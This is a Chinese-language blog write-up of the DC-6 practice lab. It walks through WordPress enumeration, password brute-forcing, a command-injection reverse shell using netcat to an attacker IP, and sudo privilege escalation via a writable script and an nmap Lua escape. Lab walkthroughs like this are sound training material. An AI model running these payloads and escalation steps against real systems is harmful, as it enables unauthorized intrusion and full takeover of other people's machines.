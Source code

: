```yaml
---
layout: post
title: DC-6
subtitle: DC-6
date: 2025-07-15 09:33
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - DC系列
published: true
---
```

ip扫描发现主机 `192.168.163.133`

![image.png](https://img.ghostliner.top/079U9O.png)

`namp -T4 -A -p- 192.168.163.133` 扫描端口发现80和22端口

![image.png](https://img.ghostliner.top/E6ZhrX.png)

访问网站被重定向 http://wordy/ , 修改hosts文件

发现站点为 wordpress，使用whatweb 查看详细信息，dirsearch扫描目录

```shell
whatweb -v http://wordy/
dirsearch -u http://wordy/
```

登陆页面： http://wordy/wp-login.php

wpscan 获取用户名

```shell
wpscan --url http://wordy/ -e u
# 保存用户名
echo "admin\ngraham\nmark\nsarah\njens" >user.txt
```

根据官网提示生成密码字典

![image.png](https://img.ghostliner.top/T0UIMS.png)

```shell
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt
```

wpscan进行爆破

```shell
wpscan --url http://wordy -U user.txt -P passwords.txt
# mark helpdesk01
```

![image.png](https://img.ghostliner.top/wC0ouK.png)

登录成功找到页面，发现存在远程命令执行漏洞

![image.png](https://img.ghostliner.top/9LqB04.png)

反弹shell

```shell
127.0.0.1;nc -nv 192.168.163.132 4444 -e /bin/bash
# kali
nc -lvvp 4444
```

查看home目录

```shell
ls -R /home
```

![image.png](https://img.ghostliner.top/Qpm843.png)

查看 `things-to-do.txt` 文件，获取用户名密码 `graham`   `GSo7isUM1D4`

![image.png](https://img.ghostliner.top/1kS92r.png)

切换用户后，`sudo -l` 尝试提权

![image.png](https://img.ghostliner.top/PkCRPu.png)

![image.png](https://img.ghostliner.top/JamVE6.png)

在backups.sh脚本中写入 `/bin/bash`进行提权

```shell
echo '/bin/bash' >> /home/jens/backups.sh
sudo -u jens /home/jens/backups.sh
```

切换用户成功，进一步提权

![image.png](https://img.ghostliner.top/qOZbD0.png)

namp提权

```shell
tf=$(mktemp)
echo 'os.execute("/bin/sh")' > $tf
sudo nmap --script=$tf
```

提权成功

```shell
python -c 'import pty;pty.spawn("/bin/bash")'
cd /root
cat theflag.txt
```

![image.png](https://img.ghostliner.top/jjWGgY.png)
